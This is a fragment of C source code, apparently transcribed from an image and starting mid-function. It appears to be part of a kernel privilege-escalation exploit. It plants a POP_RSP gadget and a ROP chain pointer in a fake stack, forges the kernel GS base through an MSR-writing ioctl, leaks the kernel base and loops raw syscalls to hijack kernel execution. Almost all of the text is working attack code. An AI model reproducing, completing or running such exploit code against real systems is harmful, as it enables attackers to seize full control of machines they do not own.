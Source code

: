 ```c

		while (1){
			*(ul*) &fake_stack[0xf50] = POP_RSP +  *kbase;
			*(ul*) &fake_stack[0xf58] = (ul) chain;
		};

		return  0;
	}

	while (!*&kbase[1]){} // wait for child to fake gs

	asm  volatile (
		".intel_syntax  noprefix\n"
		"push  0x40206\n"
		"popf\n"
		".att_syntax  prefix"
		:
		:
		:
	);

	ioctl(fd, MSR_KERNEL_GS_BASE, KERNEL_GS);

	naked_syscall();
	*kbase =  *(ul*) &fake_stack[0xf50] -  0x120012f;

	while (1)
		naked_syscall();

	stop("finished");
	return  0;
}
```
